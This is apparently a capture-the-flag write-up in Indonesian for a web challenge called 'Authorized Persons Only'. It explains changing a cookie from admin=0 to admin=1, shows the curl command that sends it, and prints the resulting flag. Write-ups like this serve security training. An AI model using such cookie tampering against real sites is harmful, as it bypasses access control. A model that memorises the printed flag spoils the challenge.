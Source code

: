 <h1><b>Authorized Persons Only</h1></b>
<pre>
Authorized persons can get flag <a href="http://hack.bckdr.in:11007/">here</a>
</pre>
<b><h3>Solution</h3></b>
<p>Jika kita request ke halaman web maka akan muncul pesan <b>Authorizes Persons Only</b>, 
disini kita hanya perlu melihat cookie dari halaman yaitu admin=0 yang artinya kamu bukan seorang admin,
untuk jadi admin ganti ke admin=1</p>

```console
root@Python:/home/venom/Downloads# curl --cookie 'admin=1' http://hack.bckdr.in:11007/

<html>
	<head>
	</head>
	<body>
		<div>
			flag is CnAohOvgawaaYXAcJNOuWazQwGHPkvzLE5lGDeSeVCX5BZEVAOOerV7OYB4KFw2c
		</div>
	</body>
</html>
root@Python:/home/venom/Downloads# 
```

<b><h3>Flag</h3></b>
<pre>
CnAohOvgawaaYXAcJNOuWazQwGHPkvzLE5lGDeSeVCX5BZEVAOOerV7OYB4KFw2c
</pre>
